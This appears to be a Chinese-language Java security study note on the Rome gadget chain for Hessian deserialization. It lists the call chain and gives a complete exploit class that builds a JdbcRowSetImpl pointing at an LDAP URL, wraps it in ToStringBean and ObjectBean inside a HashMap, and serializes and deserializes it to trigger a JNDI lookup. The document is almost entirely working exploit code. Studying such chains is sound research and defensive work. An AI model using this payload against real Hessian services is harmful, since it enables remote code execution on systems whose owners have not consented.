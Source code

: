 ## 利用链

### Rome 利用链

#### 利用链

```plain
JdbcRowSetImpl.getDatabaseMetaData()
ToStringBean.toString() (com.sun.syndication.feed.impl)
EqualsBean.beanHashCode() (com.sun.syndication.feed.impl)
ObjectBean.hashCode()
HashMap.hash()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```plain
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.util.HashMap;

public class RomeHessian {
    public static void main(String[] args) throws Exception{
        // ldap url
        String url = "ldap://127.0.0.1:1389/czhupn";

        // 创建JdbcRowSetImpl对象
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName(url);

        // 创建toStringBean对象
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);

        // 创建ObjectBean
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);

        // 创建HashMap
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(objectBean, "aaaa");

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/RomeHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/RomeHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

    }
}
```